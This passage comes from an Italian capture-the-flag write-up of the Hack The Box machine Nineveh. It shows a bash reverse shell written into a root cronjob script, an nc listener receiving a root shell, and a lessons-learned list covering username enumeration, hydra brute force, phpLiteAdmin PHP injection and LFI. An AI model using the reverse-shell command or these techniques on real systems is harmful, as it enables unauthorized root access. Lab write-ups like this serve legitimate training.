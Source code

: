```bash
www-data@nineveh: echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.34/1234 0>&1' > update

www-data@nineveh:/tmp$ cat update 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.34/1234 0>&1
www-data@nineveh:/tmp$ 
```

Ci mettiamo in ascolto con nc 

```bash
┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# nc -lnvp 1234
listening on [any] 1234 ...

```

Aspettiamo che il cronjob venga eseguito e otteniamo cosi la nostra shell da root

```bash
┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.43] 41628
bash: cannot set terminal process group (10166): Inappropriate ioctl for device
bash: no job control in this shell
root@nineveh:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@nineveh:~# 
```

# LESSONS LEARNED

Per ottenere un punto d'appoggio iniziale sulla macchina abbiamo sfruttato cinque vulnerabilità.

1. Messaggio dettagliato sul modulo di accesso. Il messaggio di errore ci ha consentito di enumerare un nome utente valido. Pertanto, quando possibile, configurare sempre l'applicazione in modo che utilizzi messaggi di errore meno dettagliati. Un messaggio di errore migliore sarebbe "Il nome utente o la password non sono corretti".

2. Credenziali di accesso deboli. Abbiamo eseguito la forzatura bruta di due moduli di accesso utilizzando hydra. L'utente dovrebbe aver utilizzato una password sufficientemente lunga e difficile da decifrare.

3. Iniezione di codice PHP nella pagina phpLiteAdmin che ci ha permesso di archiviare un file dannoso sul server. Ciò avrebbe potuto essere evitato se l'utente avesse patchato il sistema e installato la versione più recente di phpLiteAdmin.

4. Vulnerabilità di inclusione di file locali (LFI) che ci ha consentito di richiamare ed eseguire il file dannoso archiviato sul server. Inoltre, siamo stati in grado di enumerare la sequenza di bussare alla porta e aprire la porta SSH utilizzando questa vulnerabilità. Ciò avrebbe potuto essere facilmente evitato se lo sviluppatore avesse convalidato l'input dell'utente.
